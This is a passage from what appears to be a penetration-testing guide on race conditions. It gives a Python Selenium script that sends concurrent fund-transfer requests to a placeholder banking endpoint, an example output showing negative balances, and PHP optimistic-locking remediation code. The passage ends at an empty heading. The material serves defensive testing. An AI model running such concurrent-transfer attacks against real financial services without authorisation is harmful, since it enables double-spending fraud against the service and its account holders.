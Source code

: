 Automate browser-based timing tests to simulate race conditions.

**Steps**:
1. **Write Python Script**:
   - Use Selenium to open multiple browser instances:
     ```python
     from selenium import webdriver
     from concurrent.futures import ThreadPoolExecutor
     import time

     def transfer_funds(driver_path, url):
         driver = webdriver.Chrome(driver_path)
         driver.get(url)
         driver.find_element_by_name('account_id').send_keys('123')
         driver.find_element_by_name('amount').send_keys('100.00')
         driver.find_element_by_css_selector('input[type=submit]').click()
         result = driver.find_element_by_id('balance').text
         driver.quit()
         return result

     url = 'http://example.com/transfer'
     driver_path = '/path/to/chromedriver'
     with ThreadPoolExecutor(max_workers=5) as executor:
         results = list(executor.map(lambda _: transfer_funds(driver_path, url), range(5)))
     print("Results:", results)
     ```
2. **Run Script**:
   - Execute: `python3 test.py`.
   - Analyze results for inconsistent balances.
3. **Verify Findings**:
   - Cross-check with Burp Suite or JMeter results.
4. **Document Results**:
   - Save script output and screenshots.

**Example Vulnerable Output**:
```
Results: ['Balance: 0.00', 'Balance: -100.00', 'Balance: -200.00', ...]
```

**Remediation**:
- Implement optimistic locking:
  ```php
  $account = DB::select('SELECT balance, version FROM accounts WHERE id = ?', [$account_id]);
  if ($account->balance < $amount) {
      die('Insufficient funds');
  }
  $rows = DB::update('UPDATE accounts SET balance = balance - ?, version = version + 1 WHERE id = ? AND version = ?', [$amount, $account_id, $account->version]);
  if ($rows === 0) {
      die('Transaction conflict');
  }
  ```

## **Real-World Test Cases**
